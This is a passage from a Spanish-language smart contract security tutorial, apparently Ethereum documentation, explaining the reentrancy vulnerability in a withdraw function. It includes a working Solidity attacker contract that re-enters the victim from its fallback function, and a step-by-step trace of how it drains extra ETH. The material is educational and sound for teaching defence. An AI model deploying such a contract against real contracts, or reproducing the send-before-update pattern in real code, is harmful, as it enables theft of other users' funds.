 Para permitir a un usuario retirar ETH que ha almacenado previamente en el contrato, esta función

1. Lee cuánto saldo tiene un usuario
2. Envía la cantidad del saldo en ETH
3. Reinicia su saldo a 0, para que no puedan retirar su saldo de nuevo.

Si se llama desde una cuenta normal (como tu propia cuenta Metamask), esta función, como se esperaba, msg.sender.call.value() simplemente envía su cuenta ETH. Sin embargo, los contratos inteligentes también pueden realizar llamadas. Si un contrato malicioso es el que llama a `retiro ()`, msg.sender.call. alue() no sólo enviará una `cantidad` de ETH, sino que también llamará implícitamente al contrato para comenzar a ejecutar el código. Imaginemos este contracto malicioso:

```solidity
contract Attacker {
    function beginAttack() external payable {
        Victim(VICTIM_ADDRESS).deposit.value(1 ether)();
        Victim(VICTIM_ADDRESS).withdraw();
    }

    function() external payable {
        if (gasleft() > 40000) {
            Victim(VICTIM_ADDRESS).withdraw();
        }
    }
}
```

Al llamar a Attacker.beginAttack(), se iniciará un ciclo que se parecerá a lo siguiente:

```
0.) La EOA del atacante llama a Attacker.beginAttack() con 1 ETH
0.) Attacker.beginAttack() le deposita 1 ETH a la Víctima

  1.) Atacante -> Victim.withdraw()
  1.) La víctima lee el balanceOf[msg.sender]
  1.) La víctima envía ETH al Atacante (lo que ejecuta la función predeterminada)
    2.) Atacante -> Victim.withdraw()
    2.) La Víctima lee el balanceOf[msg.sender]
    2.) La Víctima envía ETH al Atacante (lo que ejecuta la función predeterminada)
      3.) Atacante -> Victim.withdraw()
      3.) La Víctima lee el balanceOf[msg.sender]
      3.) La Víctima envía ETH al Atacante (lo que ejecuta la función predeterminada)
        4.) El Atacante ya no tiene el combustible necesario, regresa sin llamar de nuevo
      3.) balances[msg.sender] = 0;
    2.) balances[msg.sender] = 0; (ya era 0)
  1.) balances[msg.sender] = 0; (ya era 0)
```

Llamar al Attacker.beginAttack con 1 ETH hará que vuelva a entrar el ataque a la Víctima, extrayendo más ETH del proporcionado (tomado de los balances de otros usuarios, causando que el contrato de la Víctima sea sub-colateralizado)



### Cómo lidiar con la reentrada (la forma incorrecta) {#how-to-deal-with-re-entrancy-the-wrong-way}
